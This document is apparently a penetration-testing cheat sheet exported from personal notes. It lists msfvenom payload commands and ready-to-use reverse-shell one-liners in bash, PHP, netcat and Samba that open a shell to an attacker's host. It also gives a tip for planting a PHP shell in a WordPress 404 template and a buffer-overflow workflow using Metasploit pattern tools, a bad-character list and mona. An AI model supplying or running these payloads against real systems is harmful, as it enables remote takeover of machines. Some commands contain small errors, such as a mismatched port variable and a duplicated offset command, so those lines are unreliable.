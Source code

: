 ```yaml
---
title: Exploitation
tags: [Penetration Testing]
---
```

> ℹ️ Finding vulnerabilities and turning them into usable exploits.

# MSFVenom Reverse Shell Payloads

## Generate Payloads

```bash
msfvenom -p $PAYLOAD LHOST=$LHOST LPORT=$LPORT [-e $ENCODER [-i $ROUNDS]] [-b $BADCHARS] [-f $FORMAT] [-o $FILENMAE]
```

## Payloads

[Windows Payloads](https://www.notion.so/89dea8a8740946c7af39fc0f484d652b)

[Linux Payloads](https://www.notion.so/4f15aed4bce34cb6acbd1e2b79d87dd8)

### Encoders

`x86/shikata_ga_nai`

# Bash Reverse Shells

```bash
0<&196;exec 196<>/dev/tcp/$LHOST/$LPORT; sh <&196 >&196 2>&196
```

```bash
bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1
```

# PHP Reverse Shells

## One Liner

```bash
<?php $sock = fsockopen($LHOST,$LPORT); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes) ?>
```

## File Upload

Kali File Location: `/usr/share/webshells/php/php-reverse-shell.php`

[php-reverse-shell.php](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/05830354-3cd9-4c7a-9a68-4672614545bd/php-reverse-shell.php)

### Tip: Wordpress

If you have valid admin credentials to a wordpress website, go to `Appearance > Editor` and overwrite the 404.php template with the above reverse shell. Open a listener and then visit any non-existent page to get a shell

# Netcat Reverse Shells

### Unix

```bash
nc -e /bin/sh $LHOST $LPORT
```

### OpenBSD

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc $LHOST $PORT >/tmp/f
```

## Bypassing Sanitisation

```bash
# Base64
echo $MSG | base64 -w 0; echo
```

## Samba (SMB) Reverseshell

```bash
# Assuming you have an SMB connection
logon "/=`nc $LHOST $LPORT -e /bin/bash`"
```

---

# Buffer Overflows

[bof-poc.py](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/bc655018-c8aa-4824-bfc1-cc342d368d31/bof-poc.py)

[Stack Frame Cheatsheet](https://www.notion.so/Stack-Frame-Cheatsheet-6f98f083a8d048448da32dd64faa426d)

### 1. Finding the Return Address

Create a unique pattern:

```bash
# Metasploit
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [no of bytes]

# Pwn Tools
pwn cyclic -l [value of ra]
```

Crash the program, get the EIP at the that crashed it:

```bash
# Metasploit
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [value of ra]

# Pwn Tools
pwn cyclic -l [value of ra]
```

### 2. Bad Characters

A Character is defined as a ‘bad’ character if, when looking in the debugger’s memory map, it is not found in buffer or it truncates the payload

```bash
badchars = "\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e\\x0f\\x10\\x11\\x12\\x13\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d\\x1e\\x1f\\x20\\x21\\x22\\x23\\x24\\x25\\x26\\x27\\x28\\x29\\x2a\\x2b\\x2c\\x2d\\x2e\\x2f\\x30\\x31\\x32\\x33\\x34\\x35\\x36\\x37\\x38\\x39\\x3a\\x3b\\x3c\\x3d\\x3e\\x3f\\x40\\x41\\x42\\x43\\x44\\x45\\x46\\x47\\x48\\x49\\x4a\\x4b\\x4c\\x4d\\x4e\\x4f\\x50\\x51\\x52\\x53\\x54\\x55\\x56\\x57\\x58\\x59\\x5a\\x5b\\x5c\\x5d\\x5e\\x5f\\x60\\x61\\x62\\x63\\x64\\x65\\x66\\x67\\x68\\x69\\x6a\\x6b\\x6c\\x6d\\x6e\\x6f\\x70\\x71\\x72\\x73\\x74\\x75\\x76\\x77\\x78\\x79\\x7a\\x7b\\x7c\\x7d\\x7e\\x7f\\x80\\x81\\x82\\x83\\x84\\x85\\x86\\x87\\x88\\x89\\x8a\\x8b\\x8c\\x8d\\x8e\\x8f\\x90\\x91\\x92\\x93\\x94\\x95\\x96\\x97\\x98\\x99\\x9a\\x9b\\x9c\\x9d\\x9e\\x9f\\xa0\\xa1\\xa2\\xa3\\xa4\\xa5\\xa6\\xa7\\xa8\\xa9\\xaa\\xab\\xac\\xad\\xae\\xaf\\xb0\\xb1\\xb2\\xb3\\xb4\\xb5\\xb6\\xb7\\xb8\\xb9\\xba\\xbb\\xbc\\xbd\\xbe\\xbf\\xc0\\xc1\\xc2\\xc3\\xc4\\xc5\\xc6\\xc7\\xc8\\xc9\\xca\\xcb\\xcc\\xcd\\xce\\xcf\\xd0\\xd1\\xd2\\xd3\\xd4\\xd5\\xd6\\xd7\\xd8\\xd9\\xda\\xdb\\xdc\\xdd\\xde\\xdf\\xe0\\xe1\\xe2\\xe3\\xe4\\xe5\\xe6\\xe7\\xe8\\xe9\\xea\\xeb\\xec\\xed\\xee\\xef\\xf0\\xf1\\xf2\\xf3\\xf4\\xf5\\xf6\\xf7\\xf8\\xf9\\xfa\\xfb\\xfc\\xfd\\xfe\\xff"
```

### 3. Finding Useful Instructions

**Finding opcodes from Assembly:**

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```

**Note:** `jmp esp == “\\xff\\xe4”`

**Finding occurrences of opcodes in memory:**

```bash
!mona modules
```

-   Find module with no DEP and ASLR (all except last column false)

```bash
!mona find -s "xff\\xe4" -m target.dll
```

```bash
!mona find -s "\\xff\\xe4"
```

-   use if nothing shows up, very slow and may crash idb

### Miscellaneous Tips

-   Restart the debugger with each test
-   Use nano
-   Bad characters in instructions and addresses
-   Set breakpoints
-   SUID bits make the program run in the context of it’s owner.

---